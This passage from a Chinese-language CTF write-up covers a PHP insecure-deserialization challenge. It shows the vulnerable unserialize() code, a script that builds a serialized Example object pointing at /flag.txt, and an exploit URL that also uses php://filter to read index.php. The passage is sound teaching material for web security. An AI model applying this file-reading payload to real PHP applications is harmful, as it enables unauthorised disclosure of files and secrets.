 ```php
    function __destruct() {
        if(file_exists($this->file)) {
            echo file_get_contents($this->file);
        }
    }
}

if (isset($_GET['data'])) {
    $s_data = $_GET['data'];
    $uns_data = unserialize($s_data);

    if ($uns_data instanceof Example) {
        echo "Data unserialized successfully.";
    } else {
        echo "Invalid data.";
    }
} else {
    echo "flag? Try file= or data= ";
}
?>
```

关键是对data处理，首先将data反序列化，然后Example在销毁的时候会自动打印 **\$file** 的内容。
于是就想到序列化构造一个数据，然后通过data反序列化来赋值 **\$file** 参数，最终获取flag内容。

构造Example序列化数据

```php
<?php
print("Hello, World\n");
class Example {
    public $file = "/flag.txt";

    function __destruct() {
        if(file_exists($this->file)) {
            echo file_get_contents($this->file);
        }
    }
}
$a = new Example();
print(var_dump(serialize($a)));
?>
// string(45) "O:7:"Example":1:{s:4:"file";s:9:"/flag.txt";}"
```

构造url执行

```text
http://10.167.34.63/index.php?file=php://filter/read=convert.base64-encode/resource=index.php&data=O:7:"Example":1:{s:4:"file";s:9:"/flag.txt";}
```

### web-12 不安全的代理服务
